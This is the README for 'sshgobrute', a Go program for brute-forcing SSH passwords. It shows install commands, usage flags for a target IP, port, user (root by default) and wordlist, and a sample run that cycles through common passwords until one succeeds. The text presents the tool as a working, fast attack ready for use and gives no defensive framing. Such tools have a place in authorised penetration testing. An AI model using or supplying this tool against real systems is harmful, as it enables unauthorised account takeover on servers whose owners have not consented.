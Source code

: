 sshgobrute
==========

This is a program written in Golang for ssh brute force attacks, needs improvements
but works well and is really fast.

```bash
$ go get golang.org/x/crypto/ssh
```

```
$ go get github.com/aldenso/sshgobrute
$ ./sshgobrute --help
Usage of ./sshgobrute:
  -file string
        indicate wordlist file to use (default "wordlistfile.txt")
  -ip string
        indicate the ip address to brute force (default "192.168.125.100")
  -port int
        indicate port to brute force (default 22)
  -timer duration
        set timeout to ssh dial response (ex:300ms), don't set this too low (default 200ms)
  -user string
        indicate user to brute force (default "root")
```

```
$ ./sshgobrute -user username -timer=200ms
file: wordlistfile.txt
ip: 192.168.125.100
port: 22
user: username
timer: 200ms
additional args: []
Failed: 123456 ---Failed: 12345 ---Failed: money ---Failed: password ---Failed:                             mickey ---Failed: password1 ---Failed: 123456789 ---Failed: 12345678 ---Failed:
.
.
.
iled: randy ---Failed: reddog ---Failed: rebecca ---
+++ Pattern found: SuperSecret +++

Completed in 60.273904113 senconds
+++ FOUND IT +++
```

If the sshd is using "PasswordAuthentication no" it won't work.
